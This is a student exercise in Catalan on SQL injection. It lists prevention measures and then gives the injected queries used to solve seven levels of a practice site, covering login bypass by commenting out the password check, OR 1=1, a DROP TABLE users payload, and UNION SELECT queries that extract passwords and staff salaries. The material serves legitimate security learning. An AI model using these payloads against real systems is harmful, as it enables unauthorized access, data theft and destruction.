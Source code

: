     - Impacte: Permet als atacants executar comandes no autoritzades, obtenir, modificar o eliminar dades, 
      i en alguns casos, aconseguir control total del servidor. Pot portar a pèrdua de dades, 
      compromisos de confidencialitat i integritat, i fins i tot la presa de control total del sistema.

    Mesures preventives:

        Utilitzar consultes parametritzades (prepared statements)
        Usar ORM (Object-Relational Mapping) com Entity Framework
        Validar i netejar totes les entrades d'usuari
        Implementar llistes blanques per validació d'entrada
        Aplicar el principi del mínim privilegi en comptes de base de dades
        Utilitzar procediments emmagatzemats
        Implementar WAF (Web Application Firewall)
        Fer tests de penetració regularment

## 2. Obre el següent enllaç [sql inseckten](https://www.sql-insekten.de/) i realitza un mínim de 7 nivells fent servir tècniques d’injecció SQL.
- a. Copia cada una de les sentències SQL resultant que has realitzat a cada nivell i comenta que has aconseguit.
  1. Nivell 1: al comentar la part del "AND" mitjançant la injecció, permet entrar sense saber la contrasenya del usuari. 
  
  `SELECT username FROM users WHERE username ='jane' --' AND password ='d41d8cd98f00b204e9800998ecf8427e';`
  2. Nivell 2: 
  
    `SELECT username FROM users WHERE username =''; DROP TABLE users; --' AND password ='d41d8cd98f00b204e9800998ecf8427e';`
  3. Nivell 3: Força un retorn de true amb una injecció del `OR 1=1`, podent accedir sense usuari
  
    `SELECT username FROM users WHERE username = '' OR 1=1 --' AND password ='d41d8cd98f00b204e9800998ecf8427e';`
  4. Nivell 4: Igual que el exercici 3 però es limiten els resultats a 1, ja que "ho han arreglat".
  
    `SELECT username FROM users WHERE username ='' OR 1=1 limit 1 --' AND password ='d41d8cd98f00b204e9800998ecf8427e';`
  5. Nivell 5: Fent servir Union, es pot unir una segona consulta i mostrar dades adicionals, com per exemple la taula amb usuaris i contrasenyes.
    
    `SELECT product_id, brand, size, price FROM shoes WHERE brand='' UNION SELECT username, password, null, null FROM users --';`
    Això menciona les [Rainbow tables](http://project-rainbowcrack.com/table.htm), 
    les quals permeten desencriptar dades en base a datasets pre-generats.
  6. Nivell 6: Aquesta injecció retornarà el salari de Greta Maria com si fos un nom d'usuari en els resultats aprofitant-se del alias de columnes.
    
    `SELECT username FROM users WHERE username = '' UNION SELECT s.salary AS username FROM staff s WHERE s.firstname = 'Greta Maria' --' AND password ='d41d8cd98f00b204e9800998ecf8427e';`
  7. Nivell 7:
    
    `SELECT product_id, brand, size, price FROM shoes WHERE brand='' UNION SELECT name, email, salary, employed_since FROM staff --'`
